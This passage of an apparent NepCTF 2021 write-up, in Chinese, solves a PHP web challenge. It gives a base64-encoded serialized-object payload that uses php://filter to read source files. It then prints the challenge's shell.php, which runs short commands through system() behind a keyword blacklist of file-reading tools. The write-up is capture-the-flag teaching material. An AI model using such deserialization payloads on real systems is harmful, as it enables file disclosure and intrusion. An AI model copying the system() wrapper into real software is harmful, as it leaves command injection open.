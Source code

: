 得到payload

```php
Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7TjtzOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086NDoiT3BlbiI6MDp7fXM6ODoiZmlsZW5hbWUiO3M6NDk6InBocDovL2ZpbHRlci9jb252ZXJ0LmJhc2U2NC1lbmNvZGUvcmVzb3VyY2U9c2hlbGwiO3M6NzoiY29udGVudCI7czowOiIiO30=
```

![image-20210322161745412](nepctf2021/image-20210322161745412.png)

读取到`shell.php`内容

```php
// shell.php
<?php
function shell($cmd){
    if(strlen($cmd)<10){
        if(preg_match('/cat|tac|more|less|head|tail|nl|tail|sort|od|base|awk|cut|grep|uniq|string|sed|rev|zip|\*|\?/',$cmd)){
            die("NO");
        }else{
            return system($cmd);
        }
    }else{
        die('so long!');
    }
}
```

就是传入一个命令，过滤一堆读取函数然后长度要小于10并读取flag。
